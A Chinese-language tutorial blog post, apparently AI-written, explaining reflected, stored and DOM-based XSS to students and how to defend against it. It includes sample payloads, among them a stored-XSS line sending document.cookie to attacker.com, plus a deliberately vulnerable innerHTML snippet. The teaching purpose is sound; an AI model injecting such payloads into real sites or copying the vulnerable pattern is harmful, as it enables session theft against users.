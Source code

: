 好的，没问题！请看下面这篇关于XSS攻击原理的博客文章，希望能帮助云计算和网络专业的同学们深入理解这一重要的Web安全问题。

## XSS攻击原理：云计算和网络专业学生不可忽视的Web安全漏洞

各位云计算和网络专业的同学们，大家好！

在Web应用日益普及的今天，Web安全变得越来越重要。作为未来的云计算工程师和网络工程师，我们不仅要关注系统的可用性和性能，更要重视系统的安全性。今天，我们就来聊聊Web安全中一个非常常见的漏洞——跨站脚本攻击（Cross-Site Scripting，简称XSS）。

### 什么是XSS攻击？

XSS攻击是一种注入攻击，攻击者通过将恶意脚本注入到Web页面中，当用户浏览这些页面时，恶意脚本会在用户的浏览器上执行，从而窃取用户的信息、篡改页面内容或者进行其他恶意操作。

**形象地说：** 想象一下你正在浏览一个论坛，一个恶意的用户发布了一个包含恶意代码的帖子。当你打开这个帖子时，你浏览器会自动执行帖子中的恶意代码，就像你信任了这个论坛一样。

### XSS攻击的分类

XSS攻击主要分为三种类型：反射型XSS、存储型XSS和基于DOM的XSS。

1.  **反射型XSS (Reflected XSS)**

    *   **原理：** 反射型XSS是最简单的一种XSS攻击。它通常发生在用户点击了包含恶意脚本的链接或者提交了包含恶意脚本的表单时。恶意脚本会作为请求参数的一部分发送到服务器，服务器未经任何处理直接将恶意脚本返回给浏览器，浏览器解析并执行这些脚本，从而导致XSS攻击。

    *   **过程：**
        1.  攻击者构造一个包含恶意脚本的URL。
        2.  攻击者诱使用户点击该URL（例如，通过钓鱼邮件）。
        3.  用户点击URL后，浏览器将包含恶意脚本的URL发送到服务器。
        4.  服务器将恶意脚本作为响应的一部分返回给浏览器。
        5.  浏览器解析并执行恶意脚本。

    *   **示例：**

        假设一个搜索框的URL是：`https://example.com/search?query=<用户输入>`

        攻击者可以构造一个包含恶意脚本的URL：`https://example.com/search?query=<script>alert('XSS')</script>`

        当用户点击这个URL时，如果服务器没有对`query`参数进行过滤，那么浏览器将会执行`alert('XSS')`，弹出一个警告框。

    *   **特点：**  非持久性，恶意脚本只在用户点击恶意链接的时候执行一次。

2.  **存储型XSS (Stored XSS)**

    *   **原理：**  存储型XSS也被称为持久型XSS。攻击者将恶意脚本存储到服务器的数据库中，例如在评论区、用户资料等地方。当其他用户访问包含恶意脚本的页面时，服务器将恶意脚本从数据库中取出并返回给浏览器，浏览器执行这些脚本，从而导致XSS攻击。

    *   **过程：**
        1.  攻击者将包含恶意脚本的数据提交到服务器，例如发布包含`<script>alert('XSS')</script>`的评论。
        2.  服务器将恶意脚本存储到数据库中。
        3.  其他用户访问包含该评论的页面时，服务器从数据库中取出恶意脚本并返回给浏览器。
        4.  浏览器解析并执行恶意脚本。

    *   **示例：**

        假设一个论坛允许用户发布评论。攻击者可以在评论中插入以下代码：`<script>window.location='http://attacker.com/cookieStealer?cookie='+document.cookie;</script>`

        当其他用户浏览这个评论时，他们的Cookie信息将会被发送到攻击者的服务器。

    *   **特点：**  持久性，恶意脚本会一直存在于服务器上，直到被清除。影响范围广。

3.  **基于DOM的XSS (DOM-based XSS)**

    *   **原理：**  基于DOM的XSS是一种特殊的XSS攻击。它发生在恶意脚本的执行完全发生在客户端，服务器不参与其中。攻击者通过修改页面的DOM（Document Object Model）来注入恶意脚本。

    *   **过程：**
        1.  攻击者构造一个包含恶意脚本的URL或者利用页面上的漏洞。
        2.  用户访问包含恶意脚本的URL或者触发页面上的漏洞。
        3.  浏览器解析HTML，执行JavaScript。
        4.  JavaScript动态修改DOM，将恶意脚本注入到页面中。
        5.  浏览器执行被注入的恶意脚本。

    *   **示例：**

        假设一个网站使用JavaScript从URL的hash部分获取参数，并将其显示在页面上：

        ```javascript
        var message = document.location.hash.substring(1);
        document.getElementById('message').innerHTML = message;
        ```

        攻击者可以构造一个URL：`https://example.com/page#<img src=x onerror=alert('XSS')>`

        当用户访问这个URL时，JavaScript会将`<img src=x onerror=alert('XSS')>`插入到`message`元素的innerHTML中。由于`src=x`不是一个有效的图片地址，`onerror`事件会被触发，执行`alert('XSS')`。

    *   **特点：**  客户端执行，不经过服务器。 更难检测。

### XSS攻击的危害

XSS攻击可能造成的危害包括：

*   **窃取用户Cookie：** 攻击者可以窃取用户的Cookie，从而冒充用户登录，获取用户的敏感信息。
*   **篡改页面内容：** 攻击者可以篡改页面的内容，例如修改银行账号、发布虚假信息。
*   **重定向用户：** 攻击者可以将用户重定向到恶意网站，进行钓鱼攻击或者传播恶意软件。
*   **键盘记录：** 攻击者可以记录用户的键盘输入，从而获取用户的账号密码。
*   **进行其他恶意操作：** 攻击者可以利用XSS漏洞执行各种恶意操作，例如发送垃圾邮件、发起DDoS攻击等。

### 如何防御XSS攻击

防御XSS攻击的方法主要包括：

1.  **输入验证 (Input Validation)**

    *   对用户输入的数据进行严格的验证，只允许输入符合预期格式的数据。
    *   例如，限制用户名只能包含字母和数字，限制评论的长度等。

2.  **输出编码 (Output Encoding)**

    *   对输出到HTML页面的数据进行编码，将特殊字符转换为HTML实体。
    *   例如，将`<`转换为`&lt;`，将`>`转换为`&gt;`，将`"`转换为`&quot;`等。
    *   常用的编码函数包括：`htmlspecialchars()` (PHP),  `escapeHtml()` (Java),  `HTMLEncode()` (.NET)等。

3.  **使用安全的模板引擎**

    *   许多模板引擎会自动对输出进行编码，从而防止XSS攻击。
    *   例如，Twig (PHP),  Jinja2 (Python)等。

4.  **设置HTTP Header：Content Security Policy (CSP)**

    *   CSP是一种HTTP响应头，允许网站管理员控制浏览器可以加载哪些资源。
    *   通过设置CSP，可以限制浏览器只能加载来自特定域名的脚本，从而防止恶意脚本的执行。
    *   例如：`Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com`

5.  **使用XSS过滤器**

    *   一些浏览器内置了XSS过滤器，可以检测并阻止一部分XSS攻击。
    *   但是XSS过滤器并不是万能的，不能完全依赖它。

6.  **对Cookie设置HttpOnly属性**

    *   HttpOnly属性可以防止JavaScript访问Cookie，从而防止攻击者通过XSS漏洞窃取Cookie。
    *   例如：`Set-Cookie: sessionid=12345; HttpOnly`

### 总结

XSS攻击是一种非常常见的Web安全漏洞，我们必须对其原理和危害有深入的了解。作为云计算和网络专业的学生，我们需要掌握防御XSS攻击的方法，从而构建更加安全的Web应用。

希望这篇文章能够帮助大家更好地理解XSS攻击。如果大家有任何问题，欢迎在评论区留言。

**进一步学习：**

*   OWASP XSS (Cross Site Scripting) Prevention Cheat Sheet: [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
*   PortSwigger Web Security Academy: [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

希望以上内容对您有所帮助！
